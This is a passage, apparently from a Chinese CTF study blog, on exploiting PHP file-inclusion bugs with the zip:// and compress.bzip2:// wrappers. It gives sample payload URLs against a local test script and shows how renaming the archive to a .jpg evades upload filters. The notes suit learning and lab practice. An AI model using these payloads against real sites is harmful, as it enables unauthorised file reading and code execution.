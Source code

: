 

更名为jpg

payload:http://127.0.0.1/xxx.php?a=zip://C:\Users\liuxianglai\Desktop\test.jpg%23zip.txt

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/文件包含/php伪协议/images/95EC6DBAD0204D4797A9F40A72B27CC14913b7389430.png)

bzip2://协议

使用方法：

compress.bzip2://file.bz2

相对路径也可以

测试

用7-zip生成一个bz2压缩文件。

pyload:http://127.0.0.1/xxx.php?a=compress.bzip2://C:/Users/liuxianglai/Desktop/test.bz2

或者文件改为jpg后缀

http://127.0.0.1/xxx.php?a=compress.bzip2://C:/Users/liuxianglai/Desktop/test.jpg

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/文件包含/php伪协议/images/7A6C8E4B931E4957B1881197A08D7F4B5d8f8d7ca051.png)
